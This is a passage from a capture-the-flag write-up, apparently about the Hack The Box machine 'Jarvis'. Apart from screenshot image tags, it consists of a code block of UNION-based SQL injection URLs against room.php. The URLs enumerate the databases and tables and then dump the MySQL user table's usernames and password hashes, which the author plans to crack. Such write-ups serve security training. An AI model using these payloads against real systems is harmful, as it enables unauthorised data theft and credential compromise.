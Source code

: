 <br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I was able to find an attack vector through the **[SQLi](https://portswigger.net/web-security/sql-injection){:target="_blank"}** exploit, I will first leak information from the database management, do a reconnaissance of the available databases and look for those tables that may have information that will allow me to access the system. After several injections I find a cradential in the user table of the mysql database, which has a hashed password that I will immediately try to crack with an online tool.

```html
http://10.10.10.143/room.php?cod=-1 union select 1,@@version,user(),database(),5,6,7-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(schema_name),4,5,6,7 from information_schema.schemata-- -

http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema="hotel"-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room"-- -
# :(

http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(schema_name),4,5,6,7 from information_schema.schemata-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema="mysql"-- -

http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_schema="mysql" and table_name="user"-- -

http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />